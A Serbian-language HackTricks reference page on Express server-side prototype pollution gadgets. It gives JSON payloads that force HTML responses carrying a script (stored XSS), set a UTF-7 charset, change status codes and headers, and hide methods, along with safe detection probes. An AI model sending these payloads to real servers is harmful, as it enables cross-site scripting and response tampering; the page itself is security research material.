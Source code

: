 # Express Prototype Pollution Gadgets

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Služi XSS odgovore

**Za dalje detalje** [**pogledajte originalno istraživanje**](https://portswigger.net/research/server-side-prototype-pollution)

### Promeni JSON content-type u HTML

U Express aplikaciji koja koristi **JSON content type odgovor** i reflektuje JSON:

```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```

U ovim slučajevima XSS obično nije moguć sa JSON sadržajem. Međutim, pomoću proto-poluacije možemo **zbuniti Express da posluži HTML odgovor.** Ova ranjivost se oslanja na aplikaciju koja koristi **`res.send(obj)`** i koristi body parser sa application/json sadržajem.

```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```

Zagađivanjem svojstava **`body`** i **`_body`**, moguće je naterati **Express da servira sadržaj HTML tipa** i reflektuje svojstvo `_body`, što rezultira uskladištenim XSS-om.

### Renderovanje UTF7

Moguće je naterati Express da **renderuje UTF-7 sadržaj sa**:

```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```

## Bezbedne tehnike skeniranja

### JSON razmaci

Sledeći PP će dodati dodatni razmak unutar atributa JSON-a koji neće narušiti funkcionalnost:

```json
{"__proto__":{"json spaces": " "}}
```

Onda će reflektovani JSON izgledati ovako:

```json
{"foo":  "bar"} -- Note the extra space
```

### Izloženi zaglavlja

Sledeći PP gedžet će naterati server da vrati HTTP zaglavlje: **`Access-Control-Expose_headers: foo`**

```json
{"__proto__":{"exposedHeaders":["foo"]}}
```

Potrebno je da je instaliran **CORS modul**

### **OPTIONS metoda**

Sa sledećim payload-om, moguće je **sakriti metod iz OPTIONS odgovora**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

Moguće je promeniti **vraćeni statusni kod** koristeći sledeći PP payload:

```json
{"__proto__":{"status":510}}
```

### Greška

Kada dodelite prototipu primitivnu vrednost kao što je string, to proizvodi **operaciju bez efekta jer prototip mora biti objekat**. Ako pokušate da dodelite objekat prototipu `Object.prototype` samom sebi, to će **izazvati izuzetak**. Možemo koristiti ova dva ponašanja da **detektujemo da li je uspešno izvršeno zagađivanje prototipa**:

```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```

### Reflektovana vrednost

Kada aplikacija uključuje objekat u svoj odgovor, stvaranje atributa sa **neobičnim imenom pored `__proto__`** može biti informativno. Konkretno, ako se u odgovoru vrati samo neobični atribut, to može ukazivati na ranjivost aplikacije:

```json
{"unusualName":"value","__proto__":"test"}
```

Osim toga, u scenarijima u kojima se koristi biblioteka poput Lodash-a, postavljanje svojstva putem zagađivanja prototipa (PP) i izravno unutar objekta nudi još jedan dijagnostički pristup. Ako se takvo svojstvo izostavi iz odgovora, to ukazuje da Lodash provjerava postojanje svojstva u ciljnom objektu prije spajanja:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Razno

### Dozvoli tačke

Postoji opcija u Express-u koja vam omogućava da **kreirate objekte iz parametara upita**.\
Svakako je možete koristiti u lancu grešaka da biste iskoristili **ranjivost prototipnog zagađenja**.

```json
{"__proto__":{"allowDots":true}}
```

**`?foo.bar=baz` kreira objekat u Node-u.**

## Reference

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
